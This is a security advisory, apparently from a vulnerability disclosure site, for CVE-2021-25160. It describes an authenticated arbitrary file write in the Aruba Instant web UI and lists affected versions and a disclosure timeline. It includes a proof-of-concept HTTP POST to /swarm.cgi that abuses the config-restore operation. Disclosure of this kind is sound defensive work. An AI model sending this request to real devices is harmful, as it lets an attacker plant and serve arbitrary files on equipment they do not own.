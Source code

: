 ```yaml
---
layout: vuln
credit: 
    - Gr33nh4t
    - waveburst
timeline:
    - type: 'report'
      date: '2020-11-22'
    - type: 'cve-assign'
      date: '2021-02-03'
    - type: 'patch'
      date: '2021-03-09'
    - type: 'release'
      date: '2021-03-09'
product:
     - ' - Aruba Instant'

vulnerable:
     - ' - Aruba Instant 6.4.x: 6.4.4.8-4.2.4.17 and below'
     - ' - Aruba Instant 6.5.x: 6.5.4.18 and below'
     - ' - Aruba Instant 8.3.x: 8.3.0.14 and below'
     - ' - Aruba Instant 8.5.x: 8.5.0.11 and below'
     - ' - Aruba Instant 8.6.x: 8.6.0.7 and below'
     - ' - Aruba Instant 8.7.x: 8.7.1.1 and below'


severity: 'moderate'
alephid: ALEPH-2021008
cve: CVE-2021-25160
date: '2021-03-09'
references:
    - src: 'Aruba Instant (IAP) Multiple Vulnerabilities'
      url: 'https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2021-007.txt'
  
title: 'Authenticated Arbitrary File Write via Web UI to Specific Backup File'

---
```

An authenticated attacker can upload arbitrary content to /etc/httpd/backup.cfg, which can be later used as an endpoint to fetch files from.

After placing the arbitrary content an attacker can request it via http://IP:PORT/backup.cfg

## POC:
```
POST /swarm.cgi HTTP/1.1
Host: IP:4343
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------267552147179520545798345899
Content-Length: 635
Origin: http://IP:4343
Connection: keep-alive
Referer: http:// IP:4343/
Upgrade-Insecure-Requests: 1
 
-----------------------------267552147179520545798345899
Content-Disposition: form-data; name="upload_id"
 
C0CCFB1C-2BAF-4CFE-85DF-A03A6FB65342
-----------------------------267552147179520545798345899
Content-Disposition: form-data; name="sid"
 
XXXXXXXXXXXXXXXXXXXX
-----------------------------267552147179520545798345899
Content-Disposition: form-data; name="opcode"
 
config-restore
-----------------------------267552147179520545798345899
Content-Disposition: form-data; name="config"; filename="file"
Content-Type: application/octet-stream
 
testtesttest
-----------------------------267552147179520545798345899--
```